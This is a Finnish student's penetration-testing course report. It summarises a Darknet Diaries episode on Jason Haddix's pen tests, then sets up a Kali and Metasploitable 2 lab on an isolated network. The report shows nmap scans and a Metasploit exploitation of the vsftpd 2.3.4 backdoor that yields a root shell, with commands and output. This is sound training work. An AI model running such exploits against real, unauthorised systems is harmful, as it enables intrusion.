



# h1 h1 OmaLabra

## x) Lue ja tiivistä.
####    - Darknet Diaries tai Herrasmieshakkerit podcast, yksi vapaavalintainen jakso jommasta kummasta.
Kuuntelin jakson [Darknet Diariesin jakson 130: Jason's Pen Test](https://darknetdiaries.com/episode/130/). Jakso on julkaistu vuoden 2022 joulukuussa, joten se oli todennäköisesti sopivan ajankohtainen. Lisäksi otsikko vaikutti kurssiin nähden oikein houkuttelevalta. Minulla ei ole aikaisempaa historiaa podcastin parissa.

 - Jakson vieraana oli Jason Haddix joka on työskennellyt penetraatiotestaajana
 - Hän on aiemmin elämässään ollut paljon tekemisissä tietokoneiden kanssa
   - Teki mm. itselleen paremman väärennöksen henkilökortista ShadowCrewin foorumeilta saaduilla ohjeilla
   - ShadowCrew oli ehkä ensimmäisiä valtavirtaistuneita darknettiin liittyviä keskustelupalstoja, joka toimi jo ennen darknettiä
 - Kertoi muutamia fyysisiä testauksia
   - Murtautui erään yrityksen tiloihin käyttämällä puhallettavaa seksinukkea
   - Murtautui toisen yrityksen palvelinhuoneeseen piiloutumalla toimistotiloihin -> työntekijät lähtivät kotiin -> Jason kiipesi palvelinhuoneeseen kattopaneelien kautta
 - Enimmäkseen kuitenkin verkkopohjaisia testauksia (esim. weppihyökkäykset)
 - Yksi kohteista oli pankin järjestelmiin hakkerointi
   - Löysi avoimen AWS bucketin (pilvipalvelun "säilytystila") mobiiliapplikaation käyttämästä kuvienkäsittelyjärjestelmästä
   - Löysi myös applikaatiosta konffaamattoman Apachen, jonka kautta sai komentorivioikeudet weppiserverille -> laajensi oikeudet niin, että sai mm. asiakastietoja haltuunsa
 - Yksi kohteista oli aikuisviihdesivusto
   - Käyttäjätunnuksen salasanan uudelleenasetus asetti tunnukselle salasanan jossa oli vain 5 merkkiä
   - Kohteen käyttäjätunnus oli tiedossa, joten tilin pystyi avaamaan brute forcella
   - Samalla metodilla saatiin myös admin-tili haltuun
   - Cross-site scriptingillä sai kierrettyä maksumuureja suoratoistolähetyksiin
 - Lopuksi Jason ja juontaja Jack pohtivat miten erilailla esim. nuorempi Jason olisi käyttäytynyt löytäessään näitä haavoittuvuuksia (eettistä pohdintaa)

## a) Asenna Kali virtuaalikoneeseen

Olin asentanut [Kalin](https://www.kali.org/get-kali/) jo aiemmin. Ohjeet VirtualBox-asennuksiin löytää esim. [Tero Karvisen ohjeista](https://terokarvinen.com/2021/install-debian-on-virtualbox/) soveltaen. Tai voi käyttää Kalin [esiasennettuja virtuaalikoneita](https://www.kali.org/get-kali/#kali-virtual-machines).

## b) Asenna Metasploitable 2 virtuaalikoneeseen

[Tuomas Valkamon](https://tuomasvalkamo.com/PenTestCourse/week-2/) artikkeli oli hyvä kertaus tunnin opetusmateriaaleihin. Sieltä löytyi mm. [linkki](https://sourceforge.net/projects/metasploitable/) josta Metasploitable 2 löytyy, sekä myöhempiä kohtia varten tarvittavat verkkomääritykset. Asensin Metasploitablen VirtualBoxiin luomalla uuden koneen ja käyttämällä siinä aiemmin mainitun linkin levykuvaa kovalevynä.


## c) Tee koneille virtuaaliverkko, jossa
###  - Kali saa yhteyden Internettiin, mutta sen voi laittaa pois päältä
###  - Kalin ja Metasploitablen välillä on host-only network, niin että porttiskannatessa ym. koneet on eristetty intenetistä, mutta ne saavat yhteyden toisiinsa

Seurasin tässäkin kohtaa Valkamon ohjeita. Avasin Metasploitablen asetukset VirtualBoxista ja säädin yhteyden Host-Onlyksi. Tein kalille saman, mutta ohjeen tapaan jätin toiseen adapteriin myös NAT-yhteyden jos haluaisin joskus käyttää kali-koneellani internetiä.


Testasin NAT-yhteyden toimivuuden kalilla ja se toimi:


Sitten otin NAT-adapterin pois käytöstä VirtualBoxin alalaidasta löytyvän ikonin kautta:




Internetyhteys katosi toivotulla tavalla! Sitten selvitin Metasploitable-koneen osoitteen käynnistämällä sen, kirjautumalla sisään (käyttäjätunnus: msfadmin, salasana on sama) ja antamalla komennon `ip addr`. Tuloksena sain vain ipv6-osotteita, joten jotakin oli todennäköisesti mennyt vikaan. Kokeilin myös pingata saatua ipv6-osoitetta, mutta koneet eivät keskustelleet keskenään. Tämän jälkeen palasin Valkamon ohjeeseen, ja kävin lisäämässä Host Network Manageriin DHCP-palvelun käytetylle ethernet-adapterille:



Käynnistin koneet uudelleen, ja ajoin taas `ip addr`-komennot, sekä osoitteiden täsmättyä vielä pingasin kalilla Metasploitablea:




Yhteydet pelittävät toivotulla tavalla.

## d) Etsi Metasploitable porttiskannaamalla (db_nmap -sn). Tarkista selaimella, että löysit oikean IP:n - Metasploitablen etusivulla lukee Metasploitable.

Loin kalin kotihakemistoon workspacea varten kansion, ja alustin workspacen sinne:

```
┌──(kali㉿kali)-[~]
└─$ mkdir ekatestaus
                                                                             
┌──(kali㉿kali)-[~]
└─$ cd ekatestaus 
                                                                             
┌──(kali㉿kali)-[~/ekatestaus]
└─$ sudo msfdb init
[sudo] password for kali: 
[+] Starting database
[+] Creating database user 'msf'
[+] Creating databases 'msf'
[+] Creating databases 'msf_test'
[+] Creating configuration file '/usr/share/metasploit-framework/config/database.yml'
[+] Creating initial database schema

┌──(kali㉿kali)-[~/ekatestaus]
└─$ sudo msfconsole
       =[ metasploit v6.3.4-dev                           ]
+ -- --=[ 2294 exploits - 1201 auxiliary - 409 post       ]
+ -- --=[ 968 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: You can pivot connections over sessions 
started with the ssh_login modules
Metasploit Documentation: https://docs.metasploit.com/

msf6 > 


```

Sitten ajoin porttiskannerin:
Parametrit -oA sn tallentavat kerätyt tiedot sn-nimiseen tiedostoon workspacen sisällä

```
msf6 > db_nmap -sn 192.168.88.1-254 -oA sn
[*] Nmap: Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-02 05:50 EEST
[*] Nmap: 'mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers'
[*] Nmap: Nmap scan report for 192.168.88.1
[*] Nmap: Host is up (0.00016s latency).
[*] Nmap: MAC Address: 0A:00:27:00:00:02 (Unknown)
[*] Nmap: Nmap scan report for 192.168.88.2
[*] Nmap: Host is up (0.00026s latency).
[*] Nmap: MAC Address: 08:00:27:E6:4C:C8 (Oracle VirtualBox virtual NIC)
[*] Nmap: Nmap scan report for 192.168.88.4
[*] Nmap: Host is up (0.00032s latency).
[*] Nmap: MAC Address: 08:00:27:1E:C9:11 (Oracle VirtualBox virtual NIC)
[*] Nmap: Nmap scan report for 192.168.88.3
[*] Nmap: Host is up.
[*] Nmap: Nmap done: 254 IP addresses (4 hosts up) scanned in 1.93 seconds

```

Tarkastin oikean ip:n curlilla:

```
msf6 > curl 192.168.88.4
[*] exec: curl 192.168.88.4

<html><head><title>Metasploitable2 - Linux</title></head><body>
<pre>

                _                  _       _ _        _     _      ____  
 _ __ ___   ___| |_ __ _ ___ _ __ | | ___ (_) |_ __ _| |__ | | ___|___ \ 
| '_ ` _ \ / _ \ __/ _` / __| '_ \| |/ _ \| | __/ _` | '_ \| |/ _ \ __) |
| | | | | |  __/ || (_| \__ \ |_) | | (_) | | || (_| | |_) | |  __// __/ 
|_| |_| |_|\___|\__\__,_|___/ .__/|_|\___/|_|\__\__,_|_.__/|_|\___|_____|
                            |_|                                          


Warning: Never expose this VM to an untrusted network!

Contact: msfdev[at]metasploit.com

Login with msfadmin/msfadmin to get started


</pre>
<ul>
<li><a href="/twiki/">TWiki</a></li>
<li><a href="/phpMyAdmin/">phpMyAdmin</a></li>
<li><a href="/mutillidae/">Mutillidae</a></li>
<li><a href="/dvwa/">DVWA</a></li>
<li><a href="/dav/">WebDAV</a></li>
</ul>
</body>
</html>

```

Curli vinkkasi, että osoite osui oikeaan.

## e) Porttiskannaa Metasploitable huolellisesti (db_nmap -A)

Seuraavaksi ajoin nmap-komennon seuraavilla parametreilla: `db_nmap -A -p- 192.168.88.4 -oA 4
`. Skannauksessa kesti joitakin minuutteja. Lopulta skannaus tuotti monta riviä seuraavankaltaista dataa:


## f) Murtaudu Metasploitablen VsFtpd-palveluun Metasploitilla (search vsftpd, use 0, set RHOSTS - varmista osoite huolella, exploit, id)

services-komennolla saa tietoa porteista ja niiden protokollista:

```

msf6 > services 
Services
========

host        port   proto  name         state  info
----        ----   -----  ----         -----  ----
192.168.88  21     tcp    ftp          open   vsftpd 2.3.4
.4

```

search-komennolla voi etsiä lisätietoa:

```
msf6 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor                                                          

```

```

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > 

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > setg RHOSTS 192.168.88.4
RHOSTS => 192.168.88.4
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 192.168.88.4:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.88.4:21 - USER: 331 Please specify the password.
[+] 192.168.88.4:21 - Backdoor service has been spawned, handling...
[+] 192.168.88.4:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.88.3:41371 -> 192.168.88.4:6200) at 2023-04-02 06:16:30 +0300

ls
bin    dev   initrd      lost+found  nohup.out  root  sys  var
boot   etc   initrd.img  media       opt        sbin  tmp  vmlinuz
cdrom  home  lib         mnt         proc       srv   usr
root@metasploitable:/# 


```

Yhteys metasploitableen löytyi, ja olin kirjautuneena siellä root-nimisellä käyttäjällä. Mielenkiintoista! Ajanpuutteen vuoksi en kuitenkaan mennyt tekemään esim. laajennuksia oikeuksiini.


Lähteet:

 - https://darknetdiaries.com/episode/130/
 - https://tuomasvalkamo.com/PenTestCourse/week-2/
